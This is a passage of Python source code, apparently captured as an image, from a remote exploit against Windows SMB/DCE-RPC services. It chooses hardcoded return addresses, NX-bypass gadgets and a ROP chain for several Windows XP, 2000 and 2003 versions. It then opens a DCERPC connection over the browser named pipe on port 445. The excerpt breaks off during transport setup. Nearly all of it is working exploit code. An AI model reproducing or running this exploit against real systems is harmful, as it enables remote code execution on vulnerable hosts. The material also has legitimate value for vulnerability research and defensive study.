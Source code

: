 ```python=

        self.port = port
        self.target = target
        self.os = os

    def __DCEPacket(self):
        if (self.os == '1'):
            print('Windows XP SP0/SP1 Universal\n')
            ret = "\x61\x13\x00\x01"
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '2'):
            print('Windows 2000 Universal\n')
            ret = "\xb0\x1c\x1f\x00"
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '3'):
            print('Windows 2003 SP0 Universal\n')
            ret = "\x9e\x12\x00\x01"  # 0x01 00 12 9e
            jumper = nonxjmper % (ret, ret)
        elif (self.os == '4'):
            print('Windows 2003 SP1 English\n')
            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
            jumper = disableNXjumper % (
                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
        elif (self.os == '5'):
            print('Windows XP SP3 French (NX)\n')
            ret = "\x07\xf8\x5b\x59"  # 0x59 5b f8 07
            disable_nx = "\xc2\x17\x5c\x59"  # 0x59 5c 17 c2
            # the nonxjmper also work in this case.
            jumper = nonxjmper % (disable_nx, ret)
        elif (self.os == '6'):
            print('Windows XP SP3 English (NX)\n')
            ret = "\x07\xf8\x88\x6f"  # 0x6f 88 f8 07
            disable_nx = "\xc2\x17\x89\x6f"  # 0x6f 89 17 c2
            # the nonxjmper also work in this case.
            jumper = nonxjmper % (disable_nx, ret)
        elif (self.os == '7'):
            print('Windows XP SP3 English (AlwaysOn NX)\n')
            rvasets = {'call_HeapCreate': 0x21286, 'add eax, ebp / mov ecx, 0x59ffffa8 / ret': 0x2e796, 'pop ecx / ret': 0x2e796 + 6,
                'mov [eax], ecx / ret': 0xd296, 'jmp eax': 0x19c6f, 'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret': 0x10a56, 'mov [eax+0x10], ecx / ret': 0x10a56 + 6, 'add eax, 8 / ret': 0x29c64}
            # the nonxjmper also work in this case.
            jumper = generate_rop(rvasets) + "AB"
        else:
            print('Not supported OS version\n')
            sys.exit(-1)

        print('[-]Initiating connection')

        # MORE MODIFICATIONS HERE #############################################################################################

        if (self.port == '445'):
            self.__trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % self.target)
        else:
            # DCERPCTransportFactory doesn't call SMBTransport with necessary parameters. Calling directly here.
```